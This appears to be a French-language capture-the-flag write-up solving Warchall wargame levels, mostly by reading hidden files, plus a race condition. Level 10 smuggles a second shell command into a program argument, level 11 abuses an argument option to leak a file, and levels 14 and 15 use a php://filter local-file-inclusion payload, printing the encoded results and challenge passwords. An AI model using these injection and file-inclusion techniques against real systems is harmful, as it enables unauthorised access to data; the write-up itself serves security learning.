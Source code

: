 # WeChall
> logging into ssh to accees the warchall box

# [ level 0 ] 
- `cd /home/level/00_Welcome` : se diriger vers le dossier du niveau 0 .
- `ls` :regarder la liste des fichiers dans le dossier dans le dossier `00_Welcome`.
- `cat README.txt` : afficher le contenu du fichier `README.txt` .
- le mot de passe se trouve dans le fichier `README.txt`. 

# [ level 1 ]
 - `cd /home//level/01_choice_tree` : se diriger vers le dossier du niveau 1 .
 - `cd /blue/hats/grey/solution/patience` : apres avoir ete rediriger vers le dossier `patience`. 
 - `cat SOLUTION.txt` : le mot de passe se trouve dans ce fichier .

# [ level 2 ] 
 - `cd /home/level/02` : se diriger vers le dossier du niveau 2 .
 - `ls -al` : voir la liste des elements du dossier `02` , fichier cacher inclus.
 - `cd .porb` : on y trouve un dossier cacher `.porb` puis on va dans le dossier .
 - `ls -al` : voir de nouveau tous les elements du dossier `.porb` puis on a un fichier `.solution` .
 - `cat .solution` : le mot de passe se trouve dans ce fichier .

# [ level 3 ] 
 - `cd /home/level/03` :  se diriger vers le dossier du niveau 3 .
 - `ls -al` : voir la liste de tout les elements du dossier `03` .
 - `cat .bash_history` : le mot de passe se trouve sur la premiere ligne .

# [ level 4 ] 
 - `cd /home/level/04_kwisatz` : se diriger vers le dossier du niveau 4 .
 - `ls -al` : voir la liste de tout les elements du dossier `04_kwisatz`.
 - `cat README.nfo` : puis on nous demande de nous rediriger vers le repertoire principale .
 - `ls` : voir les elements du repertoire .
 - `cd level` : puis `ls` pourr voir le dossier `04_kwisatz`.
 - `cd 04_kwisatz` : puis `ls` pour voir les 02 fichiers `README2.md` et README.txt`.
 - `chmod 755 README2.md` puis `cat README2.md` : changer la permission puis afficher le contenu .
 - le mot de passe se trouve dans ce fichier `README2.md`.  

# [ level 5 ] 
 - `cd /home/level/05_privacyz` : se diriger vers le dossier du niveau 5 .
 - `cat README.md` : on affiche juste ce fichier et on trouve le mot de passe . 


# [ level 10 ]
## Dans ce challenge , on doit mettre le programme c compiler en échéance pour pouvoir récupérer le mot de passe .  
- `cd /home/level/10_choose_your_path` : se diriger vers le dossier du niveau 10 .
- `ls` : voir les elements du dossiers level10 .
- `./charp "nomRandom ; cat solution.txt > /home/user/randy/fichier.txt`: nomRandom devient un argument de ***charp2*** et  ***cat solution.txt > fichier.txt*** le deuxieme argument .
- On a pu realiser la condition pour faire echouer le programme ***c*** et le contenu de solution.txt est copier vers ***fichier.txt*** dans notre repertoire personnel  .
- `cat fichier.txt`: notre mot de passe se trouvera dans ce fichier .
  

# [ level 11 ]
## Ce challenge est une version plus difficile du niveau 10 mais les instructions pour obtenir le mot de passe reste le même .
- `cd /home/level/10_choose_your_path2` : se diriger vers le dossier du niveau 11 .
- `./charp '--files0-from=solution.txt'`: ***"--file0-from=fichier"*** : Cette option est generalement pour lire les noms de fichiers dans une liste de fichier , mais dans notre cas, ***solution.txt*** n'est pas une liste mais un fichier , `charp2` interprete cet commande comme son argument et lis le contenu de ***solution.txt*** comme une liste de fichier , cependant ***solution.txt*** ne contient aucun nom de fihier valide , ce  qui met le programme en echeance , et qui affiche le mot de passe du challenge .
- ***NB : cette solution peut aussi être utiliser dans le niveau 10***  


# [ level 12 ] 
## dans ce Challenge , 
- `cd /home/level//12_pytong` : se diriger vers le dossier du niveau 12 .
- `nano /home/user/randy/script : `  créer un script exécutable qui envoie des caracteres infini vers un dossier  que l'on va creer .
- `script` :
                     <pre>while true; do 
                             echo "blablabla"  >> changedfile </pre>
- `touch changedfile` : creation du fichier qui recevera le contenu du script
- `./script` : executer le script .
- Ouvrir une nouvelle fenetre putty sans fermer la session precedente pour executer le code python .
- Executer `script` script sur une fenetre et executer `pytong` sur une autre comme ceci : 
- `cd/home/level/12_pytong` et `./level12 /home/user/randy/changedfile` : executer le level12 dans le fichier qui change de contenu et le mot de passe s'affiche .

# [ level 14 ]
- Cliquez sur le lien du challenge  **Live LFI** puis elle vous redirigera vers un site .
- Cliquez sur l'un des deux drapeaux : le drapeau **anglais** ou le drapeau **allemand** pour changer la langue et l' URL changera comme ceci :
  <pre>https://lfi.warchall.net/index.php?lang=en</pre>
- Puis on change comme ci-dessous l'URL :
  <pre>https://lfi.warchall.net/index.php?lang=php://filter/convert.base64-encode/resource=solution.php</pre>
- Puis on actualise et le contenu change et cela s'affiche :
  ```plaintext

  PGh0bWw+Cjxib2R5Pgo8cHJlIHN0eWxlPSJjb2xvcjojMDAwOyI+dGVoIGZhbGcgc2kgbmFlciE8L3ByZT4KPHByZSBzdHlsZT0iY29sb3I6I2ZmZjsiPnRoZSBmbGFnIGlzIG5lYXIhPC9wcmU+CjwvYm9keT4KPC9odG1sPgo8P3BocCAgICAgICAgICAgICAgICAgICMgICBZT1VSX1RST1BIWSAKcmV0dXJuICdTdGVwcGluU3RvbmVzNDJQaWUnOyAjIDwtwrQgPz4K


- Il s'agit du contenu de `solution.php` mais il faut encore le decoder
- Nous allons ensuite ouvrir notre putty et decoder ce long texte dans un repertoire dont nous avons des droits 755 .
- Nous allons ensuite executer la commande suivante :
- `echo " `
 ```
- PGh0bWw+Cjxib2R5Pgo8cHJlIHN0eWxlPSJjb2xvcjojMDAwOyI+dGVoIGZhbGcgc2kgbmFlciE8L3ByZT4KPHByZSBzdHlsZT0iY29sb3I6I2ZmZjsiPnRoZSBmbGFnIGlzIG5lYXIhPC9wcmU+CjwvYm9keT4KPC9odG1sPgo8P3BocCAgICAgICAgICAgICAgICAgICMgICBZT1VSX1RST1BIWSAKcmV0dXJuICdTdGVwcGluU3RvbmVzNDJQaWUnOyAjIDwtwrQgPz4K"
```

- `" | base64 -d -i`
- Et le mot de passe va ensuite s'affichera .


# [ level 15 ] 
- Nous allons cliquer sur le lien du challenge ***Right-Fi***
- Cliquez sur **EN** ou **DE** en haut a droite et l'URL changera comme tels :
  ```
  https://rfi.warchall.net/index.php?lang=en
- Rajoutons des éléments sur l'url comme ci-dessous :
  ```
  https://rfi.warchall.net/index.php?lang=php://filter/convert.base64-encode/resource=solution.php

 - La page d'acceuil s'affichera mais il y a un long message et des messages de ***Warning*** qui sont ajoutées .
 - Nous allons ensuite copier le texte incomprehensible et le decoder avec les commandes suivantes :
 - `echo " ` :
   ```
   PGh0bWw+Cjxib2R5Pgo8cHJlPk5PVEhJTkcgSEVSRT8/Pz88L3ByZT4KPC9ib2R5Pgo8L2h0bWw+CgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICA8P3BocCByZXR1cm4gJ0xvd19INE5HSU5HX0ZydWl0JzsgPz4K

 - `" | base64 -d -i ` : et le mot de passe s'affichera ensuite tout en bas a gauche  .


